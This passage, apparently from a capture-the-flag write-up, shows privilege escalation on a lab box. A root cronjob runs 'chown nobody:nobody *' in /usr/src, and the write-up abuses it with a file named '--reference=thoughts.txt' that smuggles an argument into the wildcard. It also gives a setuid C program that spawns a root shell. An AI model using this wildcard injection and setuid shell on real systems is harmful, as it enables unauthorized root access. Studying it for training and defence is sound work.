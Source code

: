 Now we know that there is a cronjob that belongs to root and we can't read and the file _thoughts.txt_ with a Shrek quote that does not give any hint.
This cronjob probably does something in the _/usr/src_ directory.

After uploading and executing **Pspy** on the box, it becomes clear that every five minutes a `chown` command is run:
```markdown
/bin/sh -c cd /usr/src; /usr/bin/chown nobody:nobody *
```

When creating a file in _/usr/src_ and waiting for five minutes, the file will be owned by the user _nobody_.
The wildcard character at the end is what we will abuse.

We can abuse the `chown` command by giving it parameters with files, so it will interpret these files as parameters and will execute them.
```markdown
touch -- --reference=thoughts.txt
```

With the `--reference` parameter the `chown` command will use the given files owner and group as owner instead of the user _nobody_.
The owner and group of _thoughts.txt_ is root.

Lets create a simple C script so we can start a shell:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
        setreuid(0, 0);
        execve("/bin/sh", NULL, NULL);
}   
```

Setting the **Setuid** bit, so it will run as root:
```markdown
chmod 4755 shell
```

After five minutes, the cronjob will run and the files are owned by root.
Executing the `shell` binary will result in a shell as root!
